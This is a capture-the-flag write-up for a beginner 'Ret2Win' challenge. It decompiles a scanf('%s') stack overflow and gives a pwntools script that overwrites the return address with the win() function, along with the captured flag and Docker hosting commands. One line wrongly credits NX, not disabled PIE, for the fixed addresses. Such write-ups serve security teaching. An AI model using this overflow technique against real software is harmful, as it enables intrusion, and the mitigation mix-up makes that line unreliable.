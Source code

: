 # Ret2Win
Level - Medium

Description:
```
I'm just learning how to write C code, but getting input is tricky. 

nc byuctf.xyz 40002

[win]
```

## Writeup
I like to approach my pwn problems by defining three things - my purpose, the vulnerable code, and the roadblocks I have to overcome. My purpose is what I'm trying to do. Read a file? Run a function? Pop a shell? The vulnerable code is how I'm going to accomplish my purpose, like a buffer overflow, format strings vulnerability, or other technique. Lastly, I outline what potential roadblocks there may be in my way, security measures designed to prevent me from accomplishing my purpose.

### Purpose
My goal in this problem is to call the `win()` function - if you open the binary up in Ghidra, you can see that calling the `win()` function will print out the flag! However, this function isn't called in `main()` or `vulnerable()`, so we're going to have to access it some other way (* cough cough* *next part* * cough cough *).

### Vulnerable Code
Here is the decompilation of the `vulnerable()` function:

```c
void vulnerable(void) {
  undefined local_28 [32];
  
  printf("Enter your name: ");
  __isoc99_scanf(&DAT_0040201f,local_28);
  return;
}
```

We can see that this function calls `scanf()` with two parameters - whatever's stored inside of `&DAT_0040201f` (which, if you double click on it, is just `"%s"`), and `local_28`. This means it'll take a string as an input and store it into a buffer which Ghidra has named `local_28`. However, we can see that only 32 bytes have been allocated to this buffer - what if our string is longer?? This is where the buffer overflow occurs. I won't go into specifics on the memory model, but each time a function is called, the address for where to go *after* you're done running the function is stored on the stack. With a buffer overflow, you can overwrite that address so it can return wherever you want it to. What if we made it return to the `win()` function?

(*Extra reading - [How Buffer Overflows Work](https://www.coengoedegebure.com/buffer-overflow-attacks-explained/)*)

### Roadblocks
There are four main roadblocks we check for when doing pwn problems - RELRO, stack canaries, NX enabled, and PIE enabled. If you install `pwntools` (which is a required Python dependency to run `solve.py`), you will be able to run the `checksec` command that will check for these things for you. Here is the output for the `win` binary:

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

So we can see that the architecture is 64-bit, little-endian x86_64 (which is normal). RELRO is partial (good), there are no stack canaries (good), NX is enabled (bad, but okay for this problem), and PIE is disabled (good). Stack canaries are meant to prevent buffer overflows, but since there isn't one, we're cleared hot! Also, NX means that we know the exact memory address for this binary. This is perfect! Let's get to exploiting!

(*Extra reading - [PIE intro](https://guyinatuxedo.github.io/5.1-mitigation_aslr_pie/index.html), [NX intro](https://guyinatuxedo.github.io/6.1-mitigation_nx/index.html), [Stack Canary intro](https://guyinatuxedo.github.io/7.1-mitigation_canary/index.html), [RELRO intro](https://guyinatuxedo.github.io/7.2-mitigation_relro/index.html)*)

### Exploit
Okay, now we are ready to craft and test our exploit. I like to use `pwntools` ([install guide](https://pypi.org/project/pwntools/#installation)) since it makes exploiting easy. When debugging, I will typically output my payloads to a file called `exploit` and run it in GDB to watch the flow of commands and view register contents. My automated solve script will go into `solve.py`.

First, let me initialize it:
```python
from pwn import *

# initialize the binary
elf = context.binary = ELF("./win")

if args.REMOTE: # use python3 solve.py REMOTE
    p = remote("byuctf.xyz", 40000)
else:
    p = elf.process()
```

All you need to know here is that I'm importing the `pwntools` library, setting it up to use the `win` binary located in the same directory, and if I run it as `python3 solve.py REMOTE`, it will connect to the binary that the challenge creators are using through a connection like netcat. 

Next, we need to craft our payload. Since the buffer is 0x20 bytes long, then we need 0x20 bytes of garbage just to fill it up - everything after that will start to mess with values on the stack. We also need to send another 0x8 bytes of garbage since the old stack pointer from running `main()` is stored next. The values after that will determine where to go after returning from the function. So, I'm going to put 0x28 `a`s and the address of the `win()` function, `0x4011c9`:

```python
# craft payload
payload = b'a' * 0x28
payload += p64(0x4011c9)
```

Note how I added 0x28 `a`s as bytes instead of a string - this is how `pwntools` likes it! Also, I put `0x4011c9` into the `p64` function - this will do the hardwork of formatting it as a 64-bit little-endian string for us. You could also write `\xc9\x11\x40\x00\x00\x00\x00\x00`, but using the `p64` function is a lot easier!

How do I know the address for the `win()` function? Well, since PIE is disabled, we know where any part of the binary should be located in memory. I use Ghidra to see where the function is and just copy that memory address (you can also find it in GDB).

img

Now, all we have to do is send the payload and see what the program gives us!

```python
# get to input and send payload
p.recvline()
p.sendline(payload)

# get flag!
p.interactive()
```

Running it, we get the output:
```
[*] '/tmp/win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './win': pid 3966
[*] Switching to interactive mode
Enter your name: [*] Process './win' stopped with exit code -11 (SIGSEGV) (pid 3966)
Your flag is - byuctf{ret2win_really_is_a_win!}
[*] Got EOF while reading in interactive
$
[*] Interrupted
```

**Flag** - `byuctf{ret2win_really_is_a_win!}`

## Hosting
`win` was compiled with `gcc -o win win.c -no-pie`.

This challenge should be a Docker container that runs the executable `win` every time someone connects on port 40002. All the proper files are included in here. The command to build the docker container is (when located inside of this directory):

```bash
sudo docker build -t win .
```

The command to start the challenge is:

```bash
sudo docker run -p 40002:40000 --detach --name win win:latest
```

The command to stop the challenge (since CTRL+C won't work) is:

```bash
sudo docker stop win
```